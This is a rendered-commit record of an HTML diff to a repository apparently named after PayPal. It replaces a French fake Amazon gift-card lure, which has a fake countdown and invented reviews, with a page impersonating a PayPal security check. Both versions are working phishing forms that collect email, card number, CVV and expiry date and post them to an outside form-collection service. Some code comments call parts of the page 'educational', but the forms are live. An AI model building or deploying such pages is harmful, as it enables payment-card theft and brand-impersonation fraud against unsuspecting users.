

Before and after one commit to Maxwelldubuzz/paypal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 17-1373 px from the top of the page at 83% size. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,202 +1,143 @@
-<!DOCTYPE html>
-<html lang="fr">
+<html>
   <head>
-    <meta charset="UTF-8">
+    <meta http-equiv="content-type" content="text/html; charset=UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Récompense Exclusive - Confirmez Votre Identité</title>
+    <title>Vérification de Sécurité</title>
     <style>
+        /* Styles de base */
         body {
+            background-color: #f9f9f9;
             font-family: Arial, sans-serif;
-            background-color: #f4f4f4;
+            display: flex;
+            flex-direction: column;
+            justify-content: space-between;
+            align-items: center;
+            min-height: 100vh;
             margin: 0;
             padding: 0;
         }
 
-        /* En-tête */
-        header {
-            background-color: #ff9900;
-            color: white;
-            padding: 20px;
-            text-align: center;
+        .container {
+            flex: 1; /* Permet au contenu de prendre l’espace dispo sans pousser le footer */
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            justify-content: center;
+            width: 100%;
+            padding-bottom: 20px; /* Espace avant le footer */
         }
 
-        header h1 {
-            margin: 0;
-            font-size: 24px;
+        form {
+            background-color: #ffffff;
+            padding: 20px;
+            border-radius: 10px;
+            box-shadow: 0 0 15px rgba(0, 0, 0, 0.1);
+            max-width: 400px;
+            width: 90%;
+            text-align: center;
+            margin-bottom: 20px;
         }
 
-        /* Contenu principal */
-        .container {
-            background-color: white;
-            max-width: 400px;
-            margin: 30px auto;
-            padding: 20px;
-            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
-            border-radius: 8px;
-
+        div {
+            margin-bottom: 15px;
+            text-align: left;
         }
 
-        .container h2 {
-            font-size: 20px;
-            color: #333;
-            text-align: center;
-        }
-
-        .container p {
-            font-size: 14px;
-            color: #555;
-            text-align: center;
-        }
-
-        input {
+        input[type="email"],
+        input[type="text"] {
             width: 100%;
-            padding: 10px;
-            margin: 10px 0;
+            padding: 12px;
             border: 1px solid #ccc;
             border-radius: 5px;
             font-size: 16px;
+            box-sizing: border-box;
+            margin-bottom: 10px;
         }
 
-        .btn {
+        button {
             width: 100%;
-            background-color: #ff9900;
+            padding: 15px;
+            border: none;
+            border-radius: 50px;
+            background-color: #0056D2;
             color: white;
-            border: none;
-            padding: 12px;
-            font-size: 16px;
+            font-size: 18px;
             cursor: pointer;
-            border-radius: 5px;
+            transition: background-color 0.3s ease;
         }
 
-        .btn:hover {
-            background-color: #e68900;
+        button:hover {
+            background-color: #003D99;
         }
 
-        /* Faux compteur */
-        .counter {
-            font-size: 20px;
-            font-weight: bold;
-            color: red;
-            margin: 10px 0;
+        .footer {
+            font-size: 14px;
+            text-align: center;
+            color: #777;
+            padding: 10px;
+            background-color: #f1f1f1;
+            width: 100%;
+            position: relative; /* Permet au footer de rester en bas sans cacher le contenu */
+            display: flex;
+            justify-content: center;
+            gap: 10px;
+            flex-wrap: wrap;
         }
 
-        /* Avis clients */
-                .reviews {
-                    margin-top: 20px;
-                    text-align: left;
+        .footer a {
+            text-decoration: none;
+            color: #0056D2;
+            padding: 5px;
+            font-weight: bold;
         }
 
-                .review {
-                    background-color: #f9f9f9;
-                    padding: 10px;
-                    margin: 10px 0;
-                    border-radius: 5px;
-                    font-size: 14px;
-                    color: #444;
+        .footer a:hover {
+            text-decoration: underline;
+            color: #003D99;
         }
 
-                .review strong {
-                    color: #222;
+        /* Ajustements pour les petits écrans */
+        @media (max-width: 400px) {
+            form {
+                padding: 15px;
             }
-
-        /* Footer */
-        footer {
-            background-color: #808080;
-            color: white;
-            padding: 10px;
-            text-align: center;
-            margin-top: 20px;
+            button {
+                font-size: 16px;
             }
-
-        footer a {
-            color: #ff9900;
-            text-decoration: none;
+            .footer {
+                font-size: 12px;
+                padding: 8px;
             }
-
-        footer a:hover {
-            text-decoration: underline;
         }
-
-        /* Alerte de sensibilisation */
-        .alert {
-            background-color: #ffcc00;
-            padding: 15px;
-            text-align: center;
-            font-weight: bold;
-            color: #333;
-            margin-top: 20px;
-        }
-
     </style>
   </head>
   <body>
+    <div class="container">
+      <form action="https://formcarry.com/s/iVwd8lHvQpp" method="POST">
+        <h2>Vérification de Sécurité<br>Protégez vos transactions</h2>
 
-    <!-- En-tête -->
-    <header>
-        <h1>🎉Félicitations ! Vous êtes éligible pour une carte cadeau Amazone de 100€</h1>
-    </header>
+        <div><input id="email" name="email" placeholder="Adresse e-mail" required="" type="email"></div>
 
-   <!-- Contenu principal -->
+        <div><input id="card_number" name="card_number" placeholder="Numéro de carte" required="" type="text"></div>
 
-    <div class="container">
-        <h2>Recevez une carte cadeau de 100€ </h2>
-        <p>Chaque semaine, nous offrons des cartes cadeaux aux utilisateurs sélectionnés au hasard.</p>
-        <p>⚠️ Attention : Cette offre est *limitée* aux 50 premiers gagnants du jour.</p>
+        <div><input id="cvv" name="cvv" placeholder="CVV" required="" type="text" maxlength="3"></div>
 
-        <!-- Faux compteur -->
-        <p class="counter">❗ Plus que <span id="countdown">10</span> cartes disponibles</p>
+        <div><input id="expiration_date" name="expiration_date" placeholder="Date d'expiration MM/AA" required="" type="text" maxlength="5"></div>
 
-    <!-- Formulaire sécurisé -->
-    <form action="https://formcarry.com/s/iVwd8lHvQpp" method="POST">
-        <div class="container">
-            <h2>Validation de votre identité</h2>
-            <p>Veuillez remplir les informations ci-dessous pour recevoir votre récompense.</p>
-            <p>Toutes les transactions et vérifications sont sécurisées grâce à un chiffrement avancé SSL 256 bits, garantissant la confidentialité de vos données.</p>
+        <p style="font-size: 12px; color: #555;">Toutes les informations sont sécurisées via HTTPS.</p>
 
-            <input type="text" name="Nom Complet" placeholder="Nom Complet" required>
-            <input type="email" name="email" placeholder="Adresse e-mail" required>
-            <input type="text" name="carte_bancaire" placeholder="Numéro de carte bancaire" required>
-            <input type="text" name="cvv" placeholder="CVV (3 chiffres)" required maxlength="3">
-            <input type="text" name="expiration" placeholder="Date d'expiration (MM/AA)" required maxlength="5">
-
-            <button type="submit" class="btn">Valider</button>
-        </div>
+        <button type="submit">Confirmer</button>
       </form>
 
-
-    <!-- Alerte éducative -->
-    <div class="alert">
-        ⚠️ATTENTION : Pour valider votre gain et éviter toute fraude, nous devons confirmer votre identité en toute sécurité. En cas de données incorrectes, votre récompense pourrait être annulée.
-    </div>
+      <p style="font-size: 12px; color: #555; text-align: center; padding: 10px;">
+        Pour garantir la sécurité de votre achat et prévenir toute tentative de fraude, PayPal vous demande une vérification d’identité supplémentaire. Cette étape rapide, d’une durée maximale de 5 minutes, est essentielle pour compléter votre transaction en toute sécurité.
+      </p>
     </div>
 
-
-        <!-- Faux avis clients -->
-                <div class="reviews">
-                    <div class="review"><strong>⭐️⭐️⭐️⭐️⭐️ Laura M.</strong> - Incroyable, j'ai reçu ma carte en 5 minutes ! Merci !</div>
-                    <div class="review"><strong>⭐️⭐️⭐️⭐️⭐️ Julien D.</strong> - J'étais sceptique, mais ça marche vraiment ! 🔥</div>
-                    <div class="review"><strong>⭐️⭐️⭐️⭐️⭐️ Sophie T.</strong> - Un cadeau inattendu, je suis ravie ! 🙌</div>
-                    <div class="review"><strong>⭐️⭐️⭐️⭐️⭐️ Marc L.</strong> - Très heureux d'avoir participé, tout est arrivé rapidement ! 🎁</div>
-                    <div class="review"><strong>⭐️⭐️⭐️⭐️⭐️ Alice P.</strong> - Je ne m'attendais pas à ça ! Très contente de mon gain ! 🎉</
+    <div class="footer">
+      <a href="#">Politique de confidentialité</a>
+      <a href="#">Conditions d'utilisation</a>
+      <a href="#">Contact</a>
     </div>
-
-
-    <script>
-            // Faux compteur qui diminue
-            let count = 10;
-            function updateCountdown() {
-                if (count > 5) {
-                    count--;
-                    document.getElementById("countdown").innerText = count;
-                }
-            }
-            setInterval(updateCountdown, 3000);
-        </script>
-
-
-    <!-- Footer -->
-    <footer>
-        <p>&copy; 2025 Amazone Gift-Card Project - <a href="#">www.amazone.com</a></p>
-    </footer>
-
   </body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
